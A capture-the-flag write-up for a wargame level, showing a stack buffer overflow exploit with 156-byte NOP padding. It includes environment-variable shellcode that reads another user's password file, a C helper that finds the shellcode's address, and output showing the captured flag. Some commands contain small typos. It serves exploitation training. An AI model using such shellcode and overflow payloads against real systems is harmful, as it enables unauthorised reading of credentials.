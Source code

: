 # level04

For this level, we have a program that is telling us `Give me some shellcode, k` and we can see that it create a child process and that we can make segfault the child process. 

With [gdb](gdbwriteup.md), we found that the buffer is at 156, so we will have to inject our shellcode after that.

```bash
python -c 'print("\x90" + "SHELLCODE ADDRESS") | ./level04'
```

We will create a shellcode that will read the file containing the flag, and we will use [this shellcode](http://shell-storm.org/shellcode/files/shellcode-73.html) to create it.

```bash
export SHELLCODE=$'\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass'
```

Now, we will create a program to find the address of our shellcode.

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    if (argc == 2)    
        printf("%p\n", getenv(argv[1]));
    return (0);
}
```
We will need to compile it with the flag `-m32` to get the address in 32 bits.

```bash
gcc -m32 -o main.c
./getaddr $SHELLCODE
```

Now, we can run our exploit.

```bash
python -c 'print("\x90" * 156 + "SHELLCODE ADDRESS") | ./level04'
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
child is exiting...
```